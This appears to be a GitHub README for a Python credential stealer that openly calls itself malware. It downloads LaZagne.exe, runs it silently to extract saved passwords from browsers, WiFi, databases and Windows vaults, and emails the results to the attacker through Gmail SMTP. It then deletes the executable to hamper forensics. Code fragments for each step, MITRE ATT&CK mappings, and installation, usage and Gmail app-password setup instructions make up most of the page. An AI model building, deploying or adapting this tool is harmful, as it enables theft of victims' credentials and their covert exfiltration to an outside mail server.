

<div align="center">

# 🕵️ LaZagne Credential Stealer - MailExfil

### *Automated Credential Harvesting & Email Exfiltration Tool*

[](https://www.python.org/)
[](https://www.microsoft.com/windows)
[](LICENSE)
[](https://github.com)

</div>

---

## 📖 Description

**LaZagne MailExfil** is an automated credential harvesting tool designed for Windows systems. The script downloads **LaZagne** (an open-source credentials recovery tool), executes it silently, captures all extracted passwords, and exfiltrates the data to a remote email address controlled by the attacker.

### 🎯 What This Malware Does

| Phase | Action | Technique |
|-------|--------|-----------|
| **1. Persistence Bypass** | Changes working directory to `%TEMP%` | Evades detection in user folders |
| **2. Payload Delivery** | Downloads LaZagne.exe from GitHub | Living-off-the-land technique |
| **3. Credential Harvesting** | Executes LaZagne to extract passwords | Extracts from browsers, WiFi, databases |
| **4. Data Exfiltration** | Sends results via Gmail SMTP | TLS-encrypted email exfiltration |
| **5. Forensics Evasion** | Deletes the executable after execution | Anti-forensics / Self-destruct |

### 🔍 What Credentials Can Be Stolen?

📧 Email Clients (Thunderbird, Outlook)
🌐 Browsers (Chrome, Firefox, Edge, Brave, Opera)
📶 WiFi Networks (SSID + Plaintext Passwords)
🗄️ Databases (MongoDB, MySQL, PostgreSQL)
💻 System Credentials (Windows vault, stored passwords)
🔑 Git credentials, Jenkins, Docker, and more...


---

## 🛠️ Technologies & Libraries Used

### Core Libraries

| Library | Purpose | MITRE ATT&CK Technique |
|---------|---------|------------------------|
| `requests` | HTTP download of malicious payload | **T1105** - Ingress Tool Transfer |
| `subprocess` | Execute LaZagne.exe and capture output | **T1059** - Command and Scripting Interpreter |
| `smtplib` | Send stolen data via email | **T1048** - Exfiltration Over Alternative Protocol |
| `os` | Directory manipulation & file deletion | **T1070** - Indicator Removal |
| `tempfile` | Get system temp path for execution | **T1037** - Boot or Logon Initialization |
| `smtp.gmail.com:587` | Gmail SMTP with TLS encryption | **T1573** - Encrypted Channel |

### Attack Flow Diagram



## 🕸️ Malware Analysis Breakdown
Technique 1: Defense Evasion
```
temp_directory = tempfile.gettempdir()
os.chdir(temp_directory)
```
Why? Running from %TEMP% avoids writing to suspicious locations like Desktop or Downloads, bypassing basic file monitoring.

Technique 2: Living off the Land
```
download("https://github.com/AlessandroZ/LaZagne/releases/download/v2.4.7/LaZagne.exe")
```
Why? LaZagne is a legitimate tool. Using trusted software for malicious purposes = LOLBin technique.

Technique 3: Data Exfiltration
```
server.sendmail(email, email, message)
```
Why? Standard email protocols blend with normal traffic. TLS encryption hides content from network monitoring.

Technique 4: Anti-Forensics
python
if os.path.exists("LaZagne.exe"):
    os.remove("LaZagne.exe")
Why? Deleting the payload leaves no evidence on disk, complicating post-breach investigation.

📦 Installation
```bash
# Clone the repository
git clone https://github.com/your-repo/LaZagne-MailExfil.git
cd LaZagne-MailExfil
```
# Install requirements
```
pip install -r requirements.txt
```

## 🚀 Usage
python
# Edit these lines in the script:
send_mail("your_email@gmail.com", "your_app_password", result_text)

# Then run:
```
python laZagne_stealer.py
```
## ⚠️ Important Setup Requirements
The following setup notes are critical for the script to function:

Requirement	Details
Python Package	pip install requests
Gmail Settings	Use App Password (not regular password)
Google Security	Enable 2-Factor Authentication first
App Password	Generate from Google Account → Security → App Passwords
Windows Only	LaZagne.exe requires Windows OS
Admin Rights	Some credentials require elevated privileges
